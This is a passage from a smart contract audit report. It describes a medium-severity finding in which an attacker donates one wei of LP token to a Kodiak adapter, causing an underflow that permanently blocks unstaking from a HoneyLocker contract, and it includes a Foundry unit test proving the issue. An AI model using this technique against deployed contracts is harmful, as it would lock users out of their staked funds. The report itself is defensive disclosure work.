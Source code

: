 
Another thing to consider is sending rewards to the locker upon unstaking so the invariant that the adapter should not hold assets would always hold.

# [M-02] Attacker can DoS lockers from unstaking from Kodiak

## Severity

**Impact:** Medium

**Likelihood:** Medium

## Description

When staking in the `HoneyLocker` contract, the fields `totalLPStaked` and `vaultLPStaked` are increased by the amount of tokens being staked. When unstaking, these fields are decreased by the amount of tokens being unstaked. However, an attacker can exploit this mechanism by donating one wei of the token to the adapter, leading to arithmetic underflow when unstaking from the Kodiak adapter. This would cause the unstake function to always fail and make the staked tokens unwithdrawable. The following unit test proves the issue:

```Solidity
    function test_unstakeDoS(
        bool _useOperator
    ) external prankAsTHJ(_useOperator) {
        // too low amount results in the withdrawal failing because of how Kodiak works
        uint256 amountToDeposit = 1000e18;

        StdCheats.deal(address(LP_TOKEN), address(locker), amountToDeposit);

        bytes32 expectedKekId = keccak256(
            abi.encodePacked(
                address(lockerAdapter),
                block.timestamp,
                amountToDeposit,
                GAUGE.lockedLiquidityOf(address(lockerAdapter))
            )
        );

        locker.stake(address(GAUGE), amountToDeposit);

        vm.warp(block.timestamp + 30 days);
        GAUGE.sync();

        StdCheats.deal(address(LP_TOKEN), address(lockerAdapter), 1);

        vm.expectRevert();
        locker.unstake(address(GAUGE), uint256(expectedKekId));
    }
```
